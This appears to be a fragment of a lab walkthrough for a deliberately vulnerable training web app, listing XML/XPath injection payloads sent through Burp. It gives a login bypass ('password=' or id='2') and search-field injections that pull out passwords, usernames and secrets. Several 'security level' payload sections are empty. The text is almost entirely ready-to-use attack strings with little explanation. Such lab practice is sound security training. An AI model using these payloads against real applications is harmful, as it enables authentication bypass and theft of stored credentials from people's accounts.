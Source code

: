 Payload: 
```
``` 

## 💀  XML/XPath Injection (Login Form) 💀
using burp

to see the magic just change the id ;)
```
login=bee
password=' or id='2
```
or
```
login=bee&password=password%3d'%20or%20id%3d'2&form=submit
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XML/XPath Injection (Search) 💀


show passwords
```
genre=')]/password | a[contains(a,'
```
show usernames
```
genre=')]/login | a[contains(a,'
```
show secrets
```
genre=%27)]/secret%20|%20a[contains(b,%27
```
show genre field
```
?genre=%27)]/genre%20|%20a[contains(a,%27
```
```
genre=') or not(contains(genre, 'xxx') and '1'='2
```
